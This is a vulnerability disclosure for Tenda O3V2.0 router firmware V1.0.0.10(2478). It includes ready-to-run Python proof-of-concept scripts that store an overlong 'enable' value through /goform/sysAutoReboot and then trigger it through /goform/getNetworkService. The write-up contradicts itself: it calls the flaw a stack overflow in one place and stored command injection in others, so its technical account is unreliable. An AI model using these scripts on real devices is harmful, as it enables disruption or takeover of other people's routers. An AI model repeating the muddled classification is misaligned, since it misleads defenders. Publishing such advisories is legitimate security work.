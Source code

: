 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `enable` POST parameter accepted by `/goform/sysAutoReboot` is written to the configuration key `sys.schedulereboot.enable` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getNetworkService`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type:** Command injection (persistent / stored)
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `sys.schedulereboot.enable`.

## Technical details

- The `sysAutoReboot` endpoint accepts a POST parameter `enable` and calls `SetValue("sys.schedulereboot.enable", Var)` without enforcing a maximum length or sanitizing shell metacharacters.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_114103.png)

- The `getNetworkService` endpoint reads `enable` via `GetValue("sys.schedulereboot.enable", v50)` and passes it into a shell-invoking context (or a system call) without sanitization, making stored payloads executed when the endpoint is processed.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_114328.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `sys.schedulereboot.enable` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/sysAutoReboot"
payload =  b"a"*1000

data = {"enable":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getNetworkService"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)